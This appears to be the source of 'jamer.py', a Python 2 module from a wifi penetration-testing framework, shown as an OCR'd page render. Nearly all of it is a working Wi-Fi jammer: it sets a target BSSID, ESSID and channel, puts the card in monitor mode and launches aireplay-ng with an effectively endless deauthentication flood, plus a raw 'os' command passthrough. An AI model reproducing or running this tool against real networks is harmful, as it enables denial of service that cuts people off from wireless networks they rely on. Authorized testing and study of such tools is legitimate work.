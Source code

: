 # jamer.py
it was  penatestingtools for wifi
import os
import subprocess
from core import wcolors
from core import help
from time import sleep

options = ["wlan0", "", "", "wlan0mon", "11"]

def wifi_jammer():
    try:
        line_1 = wcolors.color.UNDERL + wcolors.color.BLUE + "wsf" + wcolors.color.ENDC
        line_1 += ":"
        line_1 += wcolors.color.UNDERL + wcolors.color.BLUE + "Wifi_Jammer" + wcolors.color.ENDC
        line_1 += " > "
        com = raw_input(line_1)
        com = com.lower()
        if com[0:13] == 'set interface':
            options[0] = com[14:20]
            print "INTERFACE => ", options[0]
            wifi_jammer()
        elif com[0:9] == 'set bssid':
            options[1] = com[10:]
            print "BSSID => ", options[1]
            wifi_jammer()
        elif com[0:9] =='set essid':
            options[2] = com[10:]
            print "ESSID => ", options[2]
            wifi_jammer()
        elif com[0:7] =='set mon':
            options[3] = com[8:16]
            print "MON => ", options[3]
            wifi_jammer()
        elif com[0:11] =='set channel':
            options[4] = com[12:14]
            print "CHANNEL => ", options[4]
            wifi_jammer()
        elif com[0:2] =='os':
            os.system(com[3:])
            wifi_jammer()
        elif com[0:4] =='help':
            help.help()
            wifi_jammer()
        elif com[0:4] =='back':
            pass
        elif com[0:12] =='show options':
            print ""
            print "Options\t\t Value\t\t\t\t RQ\t Description"
            print "---------\t--------------\t\t\t----\t--------------"
            print "interface\t"+options[0]+"\t\t\t\tyes\tWireless Interface Name"
            print "bssid\t\t"+options[1]+"\t\t\t\tyes\tTarget BSSID Address"
            print "essid\t\t"+options[2]+"\t\t\t\tyes\tTarget ESSID Name"
            print "mon\t\t"+options[3]+"\t\t\t\tyes\tMonitor Mod(default)"
            print "channel\t\t"+options[4]+"\t\t\t\tyes\tTarget Channel Number"
            print ""
            wifi_jammer()
        elif com[0:4] =='scan':
            xterm_1 = "airmon-ng start " + options[0]
            xterm_2 = "xterm -e airodump-ng " + options[3] + " &"
            subprocess.Popen(xterm_1, stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True).wait()
            sleep(3)
            os.system(xterm_2)
            wifi_jammer()
        elif com[0:3] =='run':
            print (wcolors.color.GREEN + "[*]Attack Has Been Started on : " + options[2] + wcolors.color.ENDC)
            xterm_3 = "xterm -e airodump-ng -c " + options[4] + " --bssid " + options[1] + " " + options[3] + " &"
            os.system(xterm_3)
            sleep(4)
            xterm_4 = "xterm -e aireplay-ng --deauth 9999999999999 -o 1 -a " + options[1] + " -e " + options[2] + " " + options[3] + " &"
            os.system(xterm_4)
            sleep(1)
            os.system(xterm_4)
            wifi_jammer()
        elif com[0:4] =='stop':
            subprocess.Popen("killall xterm", stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True).wait()
            subprocess.Popen("killall aireplay", stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True).wait()
            wifi_jammer()
        else:
            print "Wrong Command => ", com
            wifi_jammer()
    except(KeyboardInterrupt):
        print(wcolors.color.RED + "\n[*] (Ctrl + C ) Detected, Module Exit" + wcolors.color.ENDC)
